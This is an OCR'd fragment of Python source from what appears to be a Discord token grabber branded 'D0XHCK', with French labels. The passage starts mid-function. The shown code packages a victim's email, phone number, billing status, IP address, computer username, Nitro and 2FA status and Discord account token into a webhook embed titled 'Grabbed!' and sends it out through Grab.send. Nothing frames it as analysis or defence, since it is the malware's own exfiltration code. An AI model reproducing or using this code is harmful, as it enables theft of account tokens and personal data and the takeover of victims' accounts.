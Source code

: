         nitro = valid if nitro else invalid
        email_verified = verify(email_verified)
        billing = verify(billing)
        mfa_enabled = verify(mfa_enabled)

        if not phone:
            phone = invalid

        data = [{
            "title": "D0XHCK",
            "description": "Grabbed!",
            "url": "https://github.com/DOXHCK",
            "image": {
                "url": "https://cdn.discordapp.com/attachments/878344886242385930/922066972479463434/21-april_pepper-the-robot.jpg"
            },
            "color": 0x196F3D,
            "fields": [
                {
                    "name": "**INFOS DU COMPTE**",
                            "value": f'Email: ||**{email}**||\nTéléphone: ||**{phone}**||\nPaiement: ||**{billing}**||',
                            "inline": True
                },
                {
                    "name": "**Infos du PC**",
                            "value": f"IP: ||**{ip}**||\nUtilisateur: ||**{computer_username}**||",
                            "inline": True
                },
                {
                    "name": "**Infos Supplémentaires**",
                            "value": f'Nitro: ||**{nitro}**||\n2FA: ||**{mfa_enabled}**||',
                            "inline": False
                },
                {
                    "name": "**Token**",
                            "value": f"||**{token}**||",
                            "inline": False
                }
            ],
            "author": {
                "name": f"{username}",
                        "icon_url": avatar_url
            },

            "thumbnail": {
                "url": "https://cdn.discordapp.com/attachments/878344886242385930/922066972479463434/21-april_pepper-the-robot.jpg"
            },

            "footer": {
                "text": "par DOXHCK"
            }
        }]
        Grab.send(data)
